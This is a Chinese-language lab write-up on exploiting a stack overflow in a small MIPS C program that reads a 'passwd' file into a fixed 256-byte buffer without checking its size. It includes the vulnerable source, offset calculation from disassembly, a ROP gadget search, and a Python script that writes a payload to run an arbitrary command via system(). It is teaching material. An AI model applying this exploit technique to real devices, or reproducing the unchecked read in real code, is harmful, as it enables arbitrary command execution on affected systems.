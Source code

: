 # 一：源码
### 实现功能：从文件passwd读取密码并判断是否是adminpwd，从而执行设定好的ls命令。
### 存在漏洞：程序中并未对文件大小做出限制，而所给缓冲区只有256个字节。
### 目标：构造ROP链实现执行任意命令
~~~ 
#include <stdio.h>
#include <sys/stat.h>
#include <unistd.h>
void do_system(int code ,char* cmd)
{

	char buf[255];
	system(cmd);
}

void main()
{
	char buf[256] = {0};
	char ch;
	int count = 0;
	unsigned int filelen = 0;
	struct stat filedata;                                   //获取文件信息
	FILE*fp;    
	if(0== stat("passwd",&filedata))
	{
		filelen=filedata.st_size;                           //获取文件大小
	}
	else
	{
	
		return 1;
	}
	if((fp=fopen("passwd","rb"))==NULL)                     //打开文件
	{
		printf("cannot open file passwd!\n");
		exit(1);
	}
	ch=fgetc(fp);
	while(count<=filelen)
	{
		buf[count++] = ch;                                  //循环读取内容到堆栈中
		ch = fgetc(fp);
	}
	buf[--count] = '\x00';
	if(!strcmp(buf,"adminpwd"))
	{
		do_system(count,"ls -l");                           //执行ls -l命令
	
	}
	else
	{
		printf("you have an invalid password!\n");
	}
	fclose(fp);

}
~~~

# 二：实施步骤
#### 1：劫持PC（搞崩程序）
通过使用python命令，生成一个具有600个‘A’的文件passwd
~~~
python -c "print 'A'*600">passwd
~~~
之后执行程序后成功崩溃。

#### 2：确定偏移
~~~
//经过动态调试可知此处就是在读取文件中的字节到堆栈中，此时我们记录一下堆栈地址add1 = （$v0+0x18）
004005C4                 sb      $v1, 0x18($v0) 
//这条就是重新从堆栈中读取返回地址到寄存器，此时我们记录下堆栈地址add2 = $sp+0x1cc
0040070C                 lw      $ra, 0x1D0+var_4($sp)
~~~
记录完成之后count = add2-add1就是覆盖ra所需的字节数了。

#### 3：确定攻击途径
要执行任意命令，我们只需要能够更改函数do_system的第二个参数即可，所以我们的大致思路是，通过文件passwd对ra进行覆盖，让其跳转到具有从堆栈中取值到$a1,之后通过ra返回的gadget。
通过插件MIPS ROP Finder进行搜索，使用方法点击edit-plugins-MIPS ROP Finder,之后在脚本栏中输入mipsrop.stackfinders()可以找到一条符合要求的指令如下：
~~~
.text:004037A0                 addiu   $a1, $sp, 0x58+var_40   //从$sp+0x18处取值到$a1
.text:004037A4                 lw      $ra, 0x58+var_4($sp)    //从$sp+0x54处取返回地址到ra
.text:004037A8                 sltiu   $v0, 1
.text:004037AC                 jr      $ra
~~~
那我们只要覆盖返回地址为004037A0，将$sp+0x18改为我们想要执行的cmd命令，将$sp+0x54改为do_system地址即可

#### 4：构建shellcode
使用python脚本构建源码如下
~~~
#exploit.py
import struct
print '[*]prepare shellcode',
#设置要执行的cmd命令
cmd = 'pwd'
cmd+="\x00"*(4-len(cmd)%4)

#构建shellcode
shellcode="A"*0x19c
shellcode+=struct.pack('>L',0x4037a0)
shellcode+='A'*24
shellcode+=cmd
shellcode+='B'*(0x3c-len(cmd))
shellcode+=struct.pack('>L',0x4006c0)
shellcode+='BBBB'
print 'ok!'
print '[+]write shellcode to file',

#写入文件passwd
fw=open('passwd','w')
fw.write(shellcode)
fw.close()
print 'ok!'

~~~
![ROP](ROP.png)
